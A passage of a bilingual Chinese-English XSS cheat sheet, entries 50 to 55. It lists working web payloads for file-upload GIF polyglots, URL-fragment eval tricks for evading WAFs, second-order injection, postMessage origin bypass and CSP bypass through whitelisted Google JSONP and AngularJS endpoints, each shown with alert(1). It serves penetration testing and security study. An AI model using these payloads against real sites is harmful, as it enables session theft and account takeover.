 ##### 50.File Upload Injection – HTML/js GIF Disguise (文件上传注入- HTML/js GIF伪装)

```
以下payload用于通过文件上传绕过CSP限制。将下面的所有内容保存为"xss.gif"或"xss.js"（用于严格的MIME检查）。这是PHP的image/gif文件,它可以通过<link rel=import href=xss.gif>（也称为"xss.js"）或<script src=xss.js></script>导入到目标web应用。

GIF89a=//<script>
alert(1)//</script>;
```

##### 51.Jump to URL Fragment (url分段跳转)

```
例如，当我们需要在payload中隐藏一些会触发WAF的关键字符,可以在URL片段（#）之后使用各自的payload进行绕过。

eval(URL.slice(-8)) #alert(1)
eval(location.hash.slice(1)) #alert(1)
document.write(decodeURI(location.hash)) #<img/src/οnerrοr=alert(1)>
```

##### 52.Second Order XSS Injection (二阶XSS注入)

```
当我们的输入的内容将会被使用两次时，例如存储在数据库中，然后进行检索以供后面使用或插入到DOM中时,使用以下的payload进行测试 

<svg/onload=alert(1)>
```

##### 53.PHP Spell Checker Bypass (PHP拼写检查绕过)

```
以下payload用于绕过PHP的pspell_new()函数，该函数提供一个字典来尝试猜测用于搜索的输入. 

<scrpt>confirm(1)</scrpt>
```

##### 54.Event Origin Bypass for postMessage() XSS (postMessage()事件源XSS绕过)

```
以下payload用于在目标的javascript代码中可以绕过对源代码的检查时进行测试，将允许的源代码检查的参数,用于发送payload攻击域的子域。在本地主机上使用CrossPwn脚本作为示例（在附加部分中进行提供）。

http://facebook.com.localhost/crosspwn.html?target=//brutelogic.com.br/tests/
status.html&msg=<script>alert(1)</script>
```

##### 55.CSP Bypass (for Whitelisted Google Domains) (CSP 绕过(通过谷歌白名单域名))

```
以下payload用于,当存在允许这些白名单域执行CSP（内容安全策略）时使用。

<script src=//www.google.com/complete/search?client=chrome%26jsonp=alert(1)>
</script>
<script src=//www.googleapis.com/customsearch/v1?callback=alert(1)></script>
<script src=//ajax.googleapis.com/ajax/libs/angularjs/1.6.0/angular.min.js>
</script><x ng-app ng-csp>{{$new.constructor('alert(1)')()}}

```
